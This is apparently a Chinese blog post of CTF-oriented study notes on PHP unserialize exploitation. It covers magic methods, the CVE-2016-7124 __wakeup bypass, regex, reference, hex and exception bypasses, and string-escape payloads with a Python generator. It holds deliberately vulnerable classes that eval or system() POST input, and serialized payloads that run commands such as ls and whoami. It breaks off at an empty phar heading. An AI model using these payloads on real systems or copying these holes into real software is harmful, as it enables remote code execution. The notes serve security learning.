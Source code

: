 ```yaml
---
title: PHP反序列化学习
date: 2022-09-15 15:10:23
tags:
- PHP反序列化
categories:
- web
- 笔记
---
```


> 参考[Y4师傅博客](https://blog.csdn.net/solitudi/article/details/113588692) 

## 序列化和反序列化

## 魔术方法

```php
__wakeup() //执行unserialize()时，先会调用这个函数
__sleep() //执行serialize()时，先会调用这个函数
    
__construct() //创建新对象时先调用此方法
__destruct() //对象被销毁时触发
    
__call() //在对象上下文中调用不可访问的方法时触发
__callStatic() //在静态上下文中调用不可访问的方法时触发
    
__get() //用于从不可访问的属性读取数据或者不存在这个键都会调用此方法
__set() //用于将数据写入不可访问的属性
    
__isset() //在不可访问的属性上调用isset()或empty()触发
__unset() //在不可访问的属性上使用unset()时触发
    
__toString() //把类当作字符串使用时触发
__invoke() //当尝试将对象调用为函数时触发
    
__set_state() //调用var_export()导出类时,  此方法会调用
```

## 绕过和利用方法

### 绕过__wakeup()(CVE-2016-7124)

> 版本限制
>
> PHP5 < 5.6.25
>
> PHP7 < 7.0.10

利用方式：序列化字符串中表示对象属性个数的值大于真实的属性个数时会跳过`__wakeup`的执行

```php
class test{
    public $code;
    public function __wakeup(){
        $this->code='phpinfo();';
    }
    public function  __destruct(){
        eval($this->code)
    }
}
```

```
O:4:"test":1:{s:4:"code";s:15:"system('calc');";} -> phpinfo()

O:4:"test":2:{s:4:"code";s:15:"system('calc');";} -> system('calc')
```

### ‘O’正则绕过

```php
class backdoor{
    public $name;
    public function __destruct(){
        eval($this->name);
    }
}
$data = $_POST['data'];

if (preg_match('/^O:\d+/i',$data)){
    die("object not allow unserialize");
}
unserialize($data);
```

**方法1：+号绕过(url编码%2B)**

```
O:+8:"backdoor":1:{s:4:"name";s:13:"system('ls');";}
```

**方法2：数组绕过**

```php
$a = new backdoor();
$a->name="phpinfo()";
$b = serialize(array($a));
unserialize($b);
# a:1:{i:0;O:8:"backdoor":1:{s:4:"name";s:10:"phpinfo();";}}
```

### 引用绕过

```php
class login{
    public $password;
    public $secret;
    public function check_login(){
        if($this->password==$this->secret){
            echo "got flag";
        }
    }
}
```

```php
$a = new login();
$a->password=&$a->secret;
echo serialize($a);
//O:5:"login":2:{s:8:"password";N;s:6:"secret";R:2;}
```

上面这个例子让password指向secret的引用，两个引用相同的变量自然相等。

### 16进制绕过

```php
class test{
    public $username;
    public function __construct(){
        $this->username = 'admin';
    }
    public function  __destruct(){
        echo 666;
    }
}
function check($data){
    if(stristr($data, 'username')!==False){
        echo("你绕不过！！".PHP_EOL);
    }
    else{
        return $data;
    }
}
```

```php
O:4:"test":2:{s:4:"%00*%00a";s:3:"abc";s:7:"%00test%00b";s:3:"def";}
可以写成
O:4:"test":2:{S:4:"\00*\00\61";s:3:"abc";s:7:"%00test%00b";s:3:"def";}
表示字符类型的s大写时，会被当成16进制解析。
```

```php
// \75是u的16进制
$a = 'O:4:"test":1:{S:8:"\\75sername";s:5:"admin";}';
$a = check($a);
unserialize($a);
```

### 异常绕过

```php
class backdoor{
    public function __destruct(){
        echo "got flag";
    }
}
$data = $_POST['data'];
if(unserialize($data)){
    throw new Exception("not allow unserialize");
}
```

这里抛出异常不会对反序列化有影响, 正常操作即可

### 字符逃逸

#### 情况1：过滤后字符变多

```php
class backdoor{
    public $m;
    public function __construct($m){
        $this->m= $m;
        $this->a= "whoami";
    }
    public function __destruct(){
        system($this->a);
    }
}
function filter($str){
    return str_replace("system","ctfshow",$str);
}

$m = $_POST['m'];
$b = new backdoor($m);
$c = filter(serialize($b));
unserialize($c);
```

+ $m=“system”

`O:8:"backdoor":2:{s:1:"m";s:6:"ctfshow";s:1:"a";s:6:"whoami";}`

可以看见 ctfshow有7个字符 但是只会生效6个 逃逸了1字符

- 所以我们只要添加足够多的`system`前缀, 就可以自己写后续的序列化内容

- 现在我们想写入命令到a中,即要添加`s:1:"a";s:6:"whoami";` 共21个字符,  加上前面ctfshow要闭合`";` 后面要加`;}` 所以共要逃逸25个字符。最终paylod就是

  ```
  systemsystemsystemsystemsystemsystemsystemsystemsystemsystemsystemsystemsystemsystemsystemsystemsystemsystemsystemsystemsystemsystemsystemsystemsystem";s:1:"a";s:6:"whoami";}
  ```

  写个脚本方便生成payload

  ```python
  cmd = input("你要执行的命令是:")
  back = f'";s:1:"a";s:{len(cmd)}:"{cmd}";}}'
  payload = "system"*len(back)+back
  print(payload)
  ```

  ```bash
  > 你要执行的命令是:ls /
  
  systemsystemsystemsystemsystemsystemsystemsystemsystemsystemsystemsystemsystemsystemsystemsystemsystemsystemsystemsystemsystemsystem";s:1:"a";s:4:"ls /";}
  ```

#### 情况2：过滤后字符变少

思路同上，一样逃逸字符后拼接

### phar反序列化

